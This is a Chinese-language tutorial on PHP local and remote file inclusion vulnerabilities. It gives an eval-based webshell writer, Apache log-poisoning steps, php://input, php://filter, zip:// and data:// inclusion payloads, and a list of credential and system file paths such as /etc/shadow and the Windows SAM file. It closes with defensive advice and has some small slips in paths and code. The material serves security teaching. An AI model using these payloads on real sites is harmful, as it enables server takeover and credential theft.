# 文件操作(包含)漏洞

—————————————————————————————————————————————————————————————————————————————————————————————————————————————

### 一、什么是文件包含漏洞

#### **1.文件包含漏洞概述**

```
和SQL注入等攻击方式一样，文件包含漏洞也是一种注入型漏洞，其本质就是输入一段用户能够控制的脚本或者代码，并让服务端执行。

什么叫包含呢？以PHP为例，我们常常把可重复使用的函数写入到单个文件中，在使用该函数时，直接调用此文件，而无需再次编写函数，这一过程叫做包含。

有时候由于网站功能需求，会让前端用户选择要包含的文件，而开发人员又没有对要包含的文件进行安全考虑，就导致攻击者可以通过修改文件的位置来让后台执行任意文件，从而导致文件包含漏洞。
```

#### 2、常用的文件包含函数

以PHP为例,常用的文件包含函数有以下四种

##### 1.include()

##### 2.require()

##### 3.include_once()

##### 4.require_once()

```
区别如下:

1.require():找不到被包含的文件会产生致命错误，并停止脚本运行

2.include():找不到被包含的文件只会产生警告，脚本继续执行

3.require_once()与require()类似:唯一的区别是如果该文件的代码已经被包含，则不会再次包含

4.include_once()与include()类似:唯一的区别是如果该文件的代码已经被包含，则不会再次包含
```

#### 3、产生原因

```
	开发人员都希望代码更加灵活，所以通常会将被包含的文件设置为变量，用来进行动态调用。正是这种灵活性，从而导致客户端可以调
用一个恶意文件，造成文件包含漏洞。
```

#### 4、文件包含漏洞利用的前提条件

```
（1）web应用采用include等文件包含函数，并且需要包含的文件路径是
通过用户传输参数的方式引入；

（2）用户能够控制包含文件的参数，被包含的文件可被当前页面访问；
```

#### 5、文件包含漏洞的典型特征



#### 6、**漏洞成因分析**

我们先直接来看一个简单的例子，网页代码如下:

```php
<?php
	include $_GET['test'];
?>
```

在创建一个phpinfo.php页面，代码如下:

```php
<?php
	phpinfo();
?>
```

利用文件包含，我们通过include函数来执行phpinfo.php页面，成功解析



将phpinfo.php文件后缀改为txt后进行访问，依然可以解析:



将phpinfo.php文件后缀改为jpg格式，也可以解析:



```
可以看出，include()函数并不在意被包含的文件是什么类型，只要有php代码，都会被解析出来。

在上一期的文件上传漏洞的总结中，我们上传了一个jpg格式的一句话木马，如果网站有文件包含漏洞，jpg文件就可以被当做php文件解析，所以这就是文件上传漏洞通常配合文件上传使用。

现在我们将phpinfo.jpg的内容改成一段文字:hello world!
再次进行访问，可以读出文本内容
```



利用这个特性，我们可以读取一下包含敏感信息的文件。

### 二、本地文件包含漏洞(LFI)

能够打开并包含本地文件的漏洞，我们称为本地文件包含漏洞(LFI)

测试网页包含如下代码:

```php
<?php
	$file=$_GET['filename'];
	include($file);
?>
```

网站利用文件包含功能读取一些php文件，例如phpinfo:



利用该代码，我们可以读取一些系统本地的敏感信息。

例如:`C:\Windows\system.ini`文件。

#### 1、使用绝对路径读取

使用绝对路径直接读取:



#### 2、使用相对路径进行读取

```
通过./表示当前位置路径，…/表示上一级路径位置，在linux中同样适用。

例如当前页面所在路径为C:\Apache24\htdocs\，我们需要使用…/退到C盘再进行访问，构造路径如下：
../../windows/system.ini

由于我的环境搭建在D盘，所以这里就不做演示了。
```

#### 3、一些常见的敏感目录信息路径

```
Windows系统:

1.C:\boot.ini //查看系统版本

2.C:\windows\system32\inetsrv\MetaBase.xml //IIS配置文件

3.C:\windows\repair\sam //存储Windows系统初次安装的密码

4.C:\ProgramFiles\mysql\my.ini //Mysql配置

5.C:\ProgramFiles\mysql\data\mysql\user.MYD //MySQL root密码

6.C:\windows\php.ini //php配置信息

Linux/Unix系统:

1./etc/password //账户信息

2./etc/shadow //账户密码信息

3./usr/local/app/apache2/conf/httpd.conf //Apache2默认配置文件

4./usr/local/app/apache2/conf/extra/httpd-vhost.conf //虚拟网站配置

5./usr/local/app/php5/lib/php.ini //PHP相关配置

6./etc/httpd/conf/httpd.conf //Apache配置文件

7./etc/my.conf //mysql配置文件
```

### 三、LFI漏洞利用技巧

#### 1、配合文件上传使用

​	有时候我们找不到文件上传漏洞，无法上传webshell，可以先上传一个图片格式的webshell到服务器，再利用本地文件包含漏洞进行解析。

以DVWA平台为例，将Security Level选择low，编辑一个图片马，内容如下:

```php
<?php
	fwrite(fopen("shell.php","w"),'<?php eval($_POST[123]);?>);
?>
```

找到上传点进行上传：



文件保存的完整路径为：

DVWA平台low等级文件包含漏洞页面如下：



该页面用于读取C:\phpStudy\WWW\vulnerabilities\fi\路径中的文件，代码如下：



现在我们利用该页面去执行我们上传的图片马

构造URL如下，代码成功解析，我这里使用的phpinfo进行测试，实战直接替换为上述所写的一句话木马即可。



注：我们也可以直接在webshell.jpg中写一句话木马，然后再通过文件包含漏洞去连接webshell.jpg，但这种方法有时候webshell功能会出现异常。所以我们选择上面的方式，生成一个.php格式的一句话木马，再去连接。

#### 2、包含Apache日志文件

有时候网站存在文件包含漏洞，但是却没有文件上传点。这个时候我们还可以通过利用Apache的日志文件来生成一句话木马。


在用户发起请求时，服务器会将请求写入access.log，当发生错误时将错误写入error.log，日志文件如下:



当我们正常访问一个网页时，如`http://127.0.0.1/phpinfo.php，access日志会进行记录，如下图所示:



如果我们访问一个不存在的资源，也一样会进行记录，例如访问

```php
127.0.0.1<?php phpinfo();?>
```

网页会显示403



但查看日志会发现被成功记录但被编码了，如下:



我们再次进行访问，并使用burp抓包，发现被编码：



我们将报文修改回去，再进行发送即可：



此时再查看access日志，正确写入php代码：



再通过本地文件包含漏洞访问，即可执行



我们可以在此处写入一句话木马，再使用webshell管理工具进行连接。

#### 3.包含SESSION文件

可以先根据尝试包含到SESSION文件，在根据文件内容寻找可控变量，在构造payload插入到文件中，最后包含即可。

**利用条件:**

```
1.找到Session内的可控变量

2.Session文件可读写，并且知道存储路径
```

php的session文件的保存路径可以在phpinfo的session.save_path看到。



**session常见存储路径:**

```
1./var/lib/php/sess_PHPSESSID

2./var/lib/php/sess_PHPSESSID

3./tmp/sess_PHPSESSID

4./tmp/sessions/sess_PHPSESSID

5.session文件格式:sess_[phpsessid],而phpsessid在发送的请求的cookie字段中可以看到。
```

相关案例可以查看这道CTF题

https://chybeta.github.io/2017/11/09/%E4%B8%80%E9%81%93CTF%E9%A2%98%EF%BC%9APHP%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB/

#### 4.包含临时文件



php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用C:\windows\temp目录。在临时文件被删除前，可以利用时间竞争的方式包含该临时文件。

由于包含需要知道包含的文件名。一种方法是进行暴力猜解，linux下使用的是随机函数有缺陷，而windows下只有65535种不同的文件名，所以这个方法是可行的。

另一种方法是配合phpinfo页面的php variables，可以直接获取到上传文件的存储路径和临时文件名，直接包含即可。

这个方法可以参考 https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf

类似利用临时文件的存在，竞争时间去包含的，可以看看这道CTF题：https://chybeta.github.io/2017/08/22/XMAN%E5%A4%8F%E4%BB%A4%E8%90%A5-2017-babyweb-writeup/

### 四、远程文件包含(RFI)

如果PHP的配置选项`allow_url_include`、`allow_url_fopen`状态为ON的话，则**include/require**函数是可以加载远程文件的，这种漏洞被称为远程文件包含(RFI)



首先我们来看一段代码

```php
<?php
	$path=$_GET['path'];
	include($path . '/phpinfo.php');
?>
```

访问本地site目录下的phpinfo.php文件:



```
该页面并没有对$path做任何过滤，因此存在文件包含漏洞。

我们在远端Web服务器/site/目录下创建一个test.php文件，内容为phpinfo()，利用漏洞去读取这个文件。

但是代码会给我们输入的路径后面加上’/phpinfo.php’后缀，如果php版本小于5.3.4，我们可以尝试使用%00截断，这里php版本为7.3.4，不适用。

还有一种截断方法就是?号截断，在路径后面输入?号，服务器会认为?号后面的内容为GET方法传递的参数，成功读取test.php如下：
```



如果test.php是恶意的webshell文件，那么利用该漏洞就可以获取到服务器权限。

### 五、PHP伪协议

PHP内置了很多URL风格的封装协议，可用于类似fopen()、copy()、file_exists()和filesize()的文件系统函数

如下所示



#### 1.file://协议

```
file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响
```



```
file:// [文件的绝对路径和文件名]
```



#### 2.php://协议

```
php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input

php://filter用于读取源码。

php://input用于执行php代码。

php://filter 读取源代码并进行base64编码输出，不然会直接当做php代码执行就看不到源代码内容了。
```

    利用条件:
    
    1.allow_url_fopen ：off/on
    
    2.allow_url_include：off/on

例如有一些敏感信息会保存在php文件中，如果我们直接利用文件包含去打开一个php文件，php代码是不会显示在页面上的，例如打开当前目录下的2.php:


他只显示了一条语句，这时候我们可以以base64编码的方式读取指定文件的源码:

输入

`php://filter/convert.base64-encode/resource=文件路径`

 得到2.php加密后的源码：



再进行base64解码，获取到2.php的完整源码信息：



```
php://input 可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。从而导致任意代码执行。
```

    利用条件:
    
    1.allow_url_fopen ：off/on
    
    2.allow_url_include：on

利用该方法，我们可以直接写入php文件，输入`file=php://input`，然后使用burp抓包，写入php代码：



发送报文，可以看到本地生成了一句话木马：



#### 3.ZIP://协议

```
zip:// 可以访问压缩包里面的文件。当它与包含函数结合时，zip://流会被当作php文件执行。从而实现任意代码执行。
```

    zip://中只能传入绝对路径。
    
    要用#分割压缩包和压缩包里的内容，并且#要用url编码成%23(即下述POC中#要用%23替换）
    
    只需要是zip的压缩包即可，后缀名可以任意更改。
    
    相同的类型还有zlib://和bzip2://
```
利用条件:

1.allow_url_fopen ：off/on

2.allow_url_include：off/on
```

POC为：

```
zip://[压缩包绝对路径]#[压缩包内文件]?file=zip://D:\1.zip%23phpinfo.txt
```



#### 4.data://协议

```
data:// 同样类似与php://input，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。从而导致任意代码执行。

利用data:// 伪协议可以直接达到执行php代码的效果，例如执行phpinfo()函数：
```

```
利用条件:

1.allow_url_fopen ：on

2.allow_url_include：on
```

POC为:

```
data://text/plain,<?php phpinfo();?>
//如果此处对特殊字符进行了过滤，我们还可以通过base64编码后再输入：
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```





#### 5.伪协议利用条件

```
伪协议的利用方法还有很多，这里就不一一举例了。

伪协议的用法小结
```



### 六、文件包含漏洞防护

```
1、使用str_replace等方法过滤掉危险字符

2、配置open_basedir，防止目录遍历（open_basedir 将php所能打开的文件限制在指定的目录树中）

3、php版本升级，防止%00截断

4、对上传的文件进行重命名，防止被读取

5、对于动态包含的文件可以设置一个白名单，不读取非白名单的文件。

6、做好管理员权限划分，做好文件的权限管理，allow_url_include和allow_url_fopen最小权限化
```

